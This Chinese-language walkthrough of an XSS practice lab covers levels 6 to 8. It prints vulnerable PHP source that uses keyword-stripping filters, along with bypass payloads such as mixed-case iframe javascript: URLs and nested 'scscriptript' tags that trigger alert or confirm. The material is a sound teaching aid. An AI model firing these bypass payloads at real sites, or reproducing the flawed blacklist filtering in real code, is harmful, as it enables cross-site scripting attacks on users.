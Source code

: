 使用包含一个大写的`payload`就可以。

	123456"><iframe src=javascript:alert(document.domain)>
	<input name=keyword  value="123456"><iframe Src=javascript:alert(document.domain)>">


![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-11-9/72053490.jpg)

**7关**

这次是区分了大小写，使用了过滤。两种过滤手段，一是对输入的敏感内容，进行重新的替换，混乱其`payload`，类似于5，6关的，将`<script`变换为`<sc_ript`。这一种感觉很好，想绕过就得使用不含有过滤字符的`payload`。接下来，这种是将敏感内容替换为空。如何绕过呢？

	<?php 
	ini_set("display_errors", 0);
	$str =strtolower( $_GET["keyword"]);
	$str2=str_replace("script","",$str);
	$str3=str_replace("on","",$str2);
	$str4=str_replace("src","",$str3);
	$str5=str_replace("data","",$str4);
	$str6=str_replace("href","",$str5);
	echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
	<form action=level7.php method=GET>
	<input name=keyword  value="'.$str6.'">
	<input type=submit name=submit value=搜索 />
	</form>
	</center>';
	?>

`script`-->``，那`scscriptript`-->`script`

	"><scscriptript>coonnfirm(1)</scscriptript><"
	<input name=keyword  value=""><script>confirm(1)</script><"">

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-11-9/28775489.jpg)

遇到这种情况，需要查看源码，看看那些被过滤了。根据输出的内容来判断，一步步的尝试。

比如输入`"><script>alert(1)</script><"`

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-11-9/34570117.jpg)


**8关**

源码
	
	<?php 
	ini_set("display_errors", 0);
	$str = strtolower($_GET["keyword"]);
	$str2=str_replace("script","scr_ipt",$str);
	$str3=str_replace("on","o_n",$str2);
	$str4=str_replace("src","sr_c",$str3);
	$str5=str_replace("data","da_ta",$str4);
	$str6=str_replace("href","hr_ef",$str5);
	$str7=str_replace('"','&quot',$str6);
	echo '<center>
	<form action=level8.php method=GET>
	<input name=keyword  value="'.htmlspecialchars($str).'">
	<input type=submit name=submit value=添加友情链接 />
	</form>
	</center>';
	?>
	<?php
	 echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
	?>
